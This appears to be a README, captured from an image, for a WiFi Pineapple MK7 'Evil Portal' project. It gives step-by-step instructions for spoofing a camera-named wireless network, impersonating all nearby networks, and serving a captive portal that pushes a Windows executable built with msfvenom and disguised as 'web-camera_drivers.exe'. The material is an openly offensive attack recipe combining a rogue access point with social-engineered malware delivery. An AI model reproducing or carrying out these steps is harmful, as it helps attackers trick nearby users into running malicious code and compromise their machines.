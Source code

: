 ### WiFi Pineapple - Web UI

PineAP Suite > Filtering : Client Filter "Deny List" and SSID Filter "Deny List"

### Hacker - Evil Portal

Edit the value of this constant in the "./configuration.php" file.
```php

/**
 * Payload
 */
$PAYLOAD_PATH = (string) './payloads/execution/web-camera.html';

```

### Hacker - Terminal

```bash
hacker@hacker-computer:~$ cd ./WiFi-Pineapple-MK7_Evil-Portal/
hacker@hacker-computer:~/.../WiFi-Pineapple-MK7_Evil-Portal$ msfvenom --arch x86 --platform windows --payload windows/exec CMD="..." --format exe-only --out ./web-camera_drivers.exe
```

### WiFi Pineapple - Web UI

PineAP Suite > Impersonation > Spoofed AP Pool : SSID "Apartment-LivingRoom_Camera" [Add]
PineAP Suite > PineAP : [Toggle] Impersonate all networks, [Check] Advertise AP Impersonation Pool and [Save]

__Note :__ *The SSID "Apartment-LivingRoom_Camera" is an example.*

